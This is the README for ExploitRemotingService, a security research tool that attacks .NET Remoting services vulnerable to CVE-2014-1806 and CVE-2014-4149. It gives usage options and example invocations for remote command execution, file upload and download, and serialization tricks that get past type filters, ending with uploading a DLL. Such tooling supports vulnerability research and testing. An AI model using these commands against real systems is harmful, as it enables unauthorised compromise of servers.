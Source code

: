 ExploitRemotingService (c) 2014 James Forshaw
=============================================

A tool to exploit .NET Remoting Services vulnerable to CVE-2014-1806 or CVE-2014-4149.
It only works on Windows although some aspects _might_ work in Mono on *nix.

NOTE: The vulnerable service provided in this repo has intentionally disabled the 
security fix so that you can test the tools are working. This shouldn't be a common
configuration.

Usage Instructions:
===================

<pre>
ExploitRemotingService [options] uri command [command args]
Copyright (c) James Forshaw 2014

Uri:
The supported URI are as follows:
tcp://host:port/ObjName   - TCP connection on host and portname
ipc://channel/ObjName     - Named pipe channel

Options:

  -s, --secure               Enable secure mode
  -p, --port=VALUE           Specify the local TCP port to listen on
  -i, --ipc=VALUE            Specify listening pipe name for IPC channel
      --user=VALUE           Specify username for secure mode
      --pass=VALUE           Specify password for secure mode
      --ver=VALUE            Specify version number for remote, 2 or 4
      --usecom               Use DCOM backchannel instead of .NET remoting
      --remname=VALUE        Specify the remote object name to register
  -v, --verbose              Enable verbose debug output
      --useser               Uses old serialization tricks, only works on
                               full type filter services
      --uselease             Uses new serialization tricks by abusing lease
                               mechanism.
      --nulluri              Don't send the URI header to the server
      --autodir              When useser is specified try and automatically
                               work out the installdir parameter from the
                               server's current directory.
      --installdir=VALUE     Specify the install directory of the service
                               executable to enable full support with useser
  -h, -?, --help

Commands:
exec [-wait] program [cmdline]: Execute a process on the hosting server
cmd  cmdline                  : Execute a command line process and display stdout
put  localfile remotefile     : Upload a file to the hosting server
get  remotefile localfile     : Download a file from the hosting server
ls   remotedir                : List a remote directory
run  file [args]              : Upload and execute an assembly, calls entry point
user                          : Print the current username
ver                           : Print the OS version
raw base64_object             : Send a raw serialized object to the service
</pre>

This tool supports exploit both TCP remoting services and local IPC services. To test 
the exploit you need to know the name of the .NET remoting service and the port it's
listening on (for TCP) or the name of the Named Pipe (for IPC). You can normally find 
this in the server or client code. Look for things like calls to:

RemotingConfiguration.RegisterWellKnownServiceType or Activator.CreateInstance

You can then try the exploit by constructing an appropriate URL. If TCP you can use the 
URL format tcp://hostname:port/ServiceName. For IPC use ipc://NamedPipeName/ServiceName. 

A simple test is to do:

ExploitRemotingService SERVICEURL ver

If successful it should print the OS version of the hosting .NET remoting service. If 
you get an exception it might be fixed with CVE-2014-1806. At this point try the COM 
version using:

ExploitRemotingService -usecom SERVICEURL ver

This works best locally but can work remotely if you modify the COM configuration and
disable the firewall you should be able to get it to work. If that still doesn't work
then it might be an up to date server. Instead you can also try the full serialization 
version using.

ExploitRemotingService -useser SERVICEURL ls c:\

For this to work the remoting service must be running with full typefilter mode enabled
(which is some, especially IPC services). It also only works with the commands ls, put
and get. But that should be enough to compromise a box. 

ExploitRemotingService -uselease SERVICEURL ls c:\

This mode bypasses low typefilter mode to get serialization tricks to work. It also only 
works with the commands ls, put and get. But that should be enough to compromise a box. 

ExploitRemotingService -uselease -autodir SERVICEURL exec notepad

The autodir option tries to work out the location of the service and will upload a DLL
to enable full remoting support including exec.
